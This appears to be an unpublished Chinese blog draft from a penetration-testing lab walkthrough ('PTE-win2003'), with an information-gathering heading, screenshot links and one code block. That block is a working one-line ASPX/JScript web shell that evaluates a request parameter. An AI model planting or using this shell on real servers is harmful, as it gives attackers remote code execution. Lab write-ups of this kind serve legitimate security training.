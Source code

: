 ```yaml
---
layout: post
title: PTE-win2003
subtitle: PTE-win2003
date: 2025-08-16 13:07
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. 信息搜集

- [ ] pte-win2003🛫 2025-08-16 

![image.png](https://img.ghostliner.top/HSgn6X.png)

![image.png](https://img.ghostliner.top/m7FB5u.png)

![image.png](https://img.ghostliner.top/C5mp68.png)

![image.png](https://img.ghostliner.top/8A4Fow.png)

```asp
<%@ Page Language="Jscript"%><%Response.Write(eval(Request.Item["z"],"unsafe"));%>
```
